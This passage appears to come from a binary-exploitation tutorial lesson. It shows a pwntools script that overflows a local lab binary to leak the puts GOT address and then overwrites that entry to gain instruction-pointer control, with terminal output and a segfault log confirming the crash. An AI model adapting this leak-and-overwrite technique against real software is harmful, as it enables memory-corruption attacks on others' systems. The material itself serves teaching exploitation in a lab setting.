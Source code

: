 Running the script gives us a sanity check that we are reading the right thing.

```
ubuntu@ubuntu-xenial:/vagrant/lessons/10_bypass_got/scripts$ python 3_leak_puts_got.py
[+] Starting local process '../build/1_records': Done
[*] Got leaked data: �
                      f�@�a�
[*] puts@libc: 0xf7660ca0
[*] Switching to interactive mode
$
```

Now, let's try and get EIP control. This should be as simple as sending four bytes.

```
#!/usr/bin/python

from pwn import *

def main():
    p = process("../build/1_records")

    # Craft first stage (arbitrary read)
    leak_address = 0x0804a018    # Address of puts@got
    stage_1 = "A"*24 + p32(leak_address)
    p.recvrepeat(0.2)

    # Send the first stage
    p.send(stage_1)

    # Parse the response
    data = p.recvrepeat(0.2)
    leak = data[data.find("(")+1:data.rfind(")")]
    log.info("Got leaked data: %s" % leak)
    puts_addr = u32(leak[:4])
    log.info("puts@libc: 0x%x" % puts_addr)

    # Overwrite puts@got
    ret_address =0xdeadc0de
    p.send(p32(ret_address))

    p.interactive()

if __name__ == "__main__":
    main()
```

It works, the program crashed at `0xdeadc0de`.

```
ubuntu@ubuntu-xenial:/vagrant/lessons/10_bypass_got/scripts$ python 4_eip_control.py
[+] Starting local process '../build/1_records': Done
[*] Got leaked data: �,c�@�^�
[*] puts@libc: 0xf7632ca0
[*] Switching to interactive mode
Now Playing: AAAAAAAAAAAAAAAAAAAAAAAA\x18\xa0\x0�Sx�@Ż\xff (��\xad�@\xb5^�)
$  [*] Got EOF while reading in interactive

[*] Process '../build/1_records' stopped with exit code -11
[*] Got EOF while sending in interactive
ubuntu@ubuntu-xenial:/vagrant/lessons/10_bypass_got/scripts$ dmesg | tail -n 1
[19310.052976] 1_records[3815]: segfault at deadc0de ip 00000000deadc0de sp 00000000ffbbc4ec error 14 in libc-2.23.so[f75d3000+1af000]
```
